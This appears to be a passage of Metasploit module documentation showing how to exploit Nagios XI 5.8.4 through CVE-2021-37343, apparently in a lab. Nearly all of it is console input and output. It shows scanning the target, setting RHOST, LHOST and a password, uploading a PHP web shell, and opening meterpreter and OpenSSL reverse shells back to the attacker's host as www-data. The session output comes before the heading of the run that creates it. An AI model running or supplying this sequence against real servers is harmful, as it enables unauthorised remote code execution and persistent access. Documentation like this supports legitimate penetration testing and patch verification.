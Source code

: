 ```
[*] Executing Linux Dropper for linux/x86/meterpreter/reverse_tcp
[*] Sending stage (989032 bytes) to 10.0.0.6
[+] Deleted /usr/local/nagiosxi/html/includes/components/highcharts/exporting-server/temp/fJHspzgor.php
[*] Command Stager progress - 100.00% done (700/700 bytes)
[*] Deleting autodiscovery job
[*] Meterpreter session 1 opened (10.0.0.3:4444 -> 10.0.0.6:44224 ) at 2022-02-05 17:53:27 -0800

meterpreter > shell
Process 800816 created.
Channel 1 created.
uname -a
Linux ubuntu 5.13.0-27-generic #29~20.04.1-Ubuntu SMP Fri Jan 14 00:32:30 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
whoami
www-data
pwd
/usr/local/nagiosxi/html/includes/components/highcharts/exporting-server/temp
```

### Nagios XI 5.8.4 - Get a reverse shell

```
msf6 > use auxiliary/scanner/http/nagios_xi_scanner
msf6 auxiliary(scanner/http/nagios_xi_scanner) > set RHOST 10.0.0.6
RHOST => 10.0.0.6
msf6 auxiliary(scanner/http/nagios_xi_scanner) > set PASSWORD labpass1
PASSWORD => labpass1
msf6 auxiliary(scanner/http/nagios_xi_scanner) > run

[*] Attempting to authenticate to Nagios XI...
[+] Successfully authenticated to Nagios XI
[*] Target is Nagios XI with version 5.8.4
[+] The target appears to be vulnerable to the following 1 exploit(s):
[*] 
[*] 	CVE-2021-37343    exploit/linux/http/nagios_xi_autodiscovery_webshell
[*] 
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/nagios_xi_scanner) > use exploit/linux/http/nagios_xi_autodiscovery_webshell
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
msf6 exploit(linux/http/nagios_xi_autodiscovery_webshell) > set target 0
target => 0
msf6 exploit(linux/http/nagios_xi_autodiscovery_webshell) > set RHOST 10.0.0.6
RHOST => 10.0.0.6
msf6 exploit(linux/http/nagios_xi_autodiscovery_webshell) > set LHOST 10.0.0.3
LHOST => 10.0.0.3
msf6 exploit(linux/http/nagios_xi_autodiscovery_webshell) > set PASSWORD labpass1
PASSWORD => labpass1
msf6 exploit(linux/http/nagios_xi_autodiscovery_webshell) > run

[*] Started reverse double SSL handler on 10.0.0.3:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Attempting to authenticate to Nagios XI...
[+] The target appears to be vulnerable. Determined using the self-reported version: 5.8.4
[*] Attempting to grab a CSRF token from /nagiosxi/includes/components/autodiscovery/?mode=newjob
[*] Uploading webshell to /nagiosxi/includes/components/highcharts/exporting-server/temp/OalF9GV4AC.php
[*] Testing if web shell installation was successful
[+] Web shell installed at /nagiosxi/includes/components/highcharts/exporting-server/temp/OalF9GV4AC.php
[*] Executing Unix Command for cmd/unix/reverse_openssl
```